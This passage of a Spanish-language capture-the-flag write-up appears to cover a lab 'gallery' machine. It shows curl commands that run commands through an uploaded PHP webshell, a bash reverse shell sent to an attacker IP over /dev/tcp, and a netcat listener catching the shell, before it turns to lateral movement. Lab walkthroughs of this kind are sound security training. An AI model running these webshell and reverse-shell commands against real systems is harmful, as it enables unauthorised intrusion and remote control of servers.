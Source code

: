 ![](/assets/img/gallery/sh.png)

Probemos si la webshell se subio correctamente y bueno tenemos Capacidad de Ejecutar comandos en el sistema.
```bash
❯ curl -s -X GET -G "http://10.10.47.107/gallery/uploads/1677791220_shell.php" --data-urlencode 'cmd=whoami' |html2text;echo
www-data
```
Mandemenos una revershell en la cual operar mas comodos
```bash
❯ curl -s -X GET -G "http://10.10.47.107/gallery/uploads/1677791220_shell.php" --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.8.47.45/4444 0>&1"'
```
Y nos llega la consola
```bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.47.45] from (UNKNOWN) [10.10.1.214] 36086
bash: cannot set terminal process group (687): Inappropriate ioctl for device
bash: no job control in this shell
www-data@gallery:/var/www/html/gallery/uploads$ whoami
whoami
www-data
www-data@gallery:/var/www/html/gallery/uploads$ 
```
## Movimiento lateral
Enumerando el sistema me encontre con un directorio interesante, que parese ser el backup del directorio /home/mike
